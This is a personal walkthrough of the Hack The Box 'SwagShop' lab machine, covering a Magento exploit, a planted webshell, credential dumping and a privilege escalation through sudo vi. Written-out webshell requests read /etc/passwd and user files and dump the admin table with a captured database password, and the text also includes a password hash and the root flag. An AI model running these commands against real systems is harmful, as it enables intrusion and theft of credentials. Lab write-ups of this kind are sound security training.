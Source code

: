 # SwagShop

### Preface

This box had so many people fucking with it that I bought VIP.

#### Process
- Add account via exploit - https://www.exploit-db.com/exploits/37811
  - Blogs about the exploit mentioned that it was commonly exploited and coupled with a file editing plugin to get a shell
- While poking around came accross /app/
  - This lead to finding the config file in `local.xml`
- Use file IDE to add webshell to /app/Mage.php file. [took a metric ton of googling](http://connect20.magentocommerce.com/community/Magpleasure_Filesystem/1.0.0/Magpleasure_Filesystem-1.0.0.tgz)
  - later used pentest monkey reverse php shell and overwrote install.php instead. I think stalling mage.php was fucking up the app.
- Use shell cat `/etc/passwd` to find home user
- cat user.txt `http://10.10.10.140/app/Mage.php?cmd=cat%20/home/haris/user.txt`
- use webshell + mysql creds from `local.xml` to list records in admin_user. Contains user `haris`'s hashed+salted creds
  - `http://10.10.10.140/app/Mage.php?cmd=mysql%20-u%20%22root%22%20%22-pfMVWh7bDHpgZkyfqQXreTjU9%22%20%20%22swagshop%22%20-e%20%22select%20*%20from%20admin_user%22`
  - 8512c803ecf70d315b7a43a1c8918522:lBHk0AOG0ux8Ac4tcM1sSb1iD5BNnRJp
- After throwing it through rockyou.txt I decided to look for other avenues.
- Use Pentest monkey to get a real reverse shell
- Try a few enumeration techniques after getting a proper shell `python3 -c 'import pty; pty.spawn("/bin/sh")'`
  - `find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \;`
  - `find / -perm -o+w `
  - `sudo -l`
- Third time's a charm

```
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
- `sudo /usr/bin/vi /var/www/html/*`
- `:!bash` for root shell

#### Pwnd
```
root@swagshop:/var/www/html# cat /root/root.txt
cat /root/root.txt
c2b087d66e14a652a3b86a130ac56721

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!

```
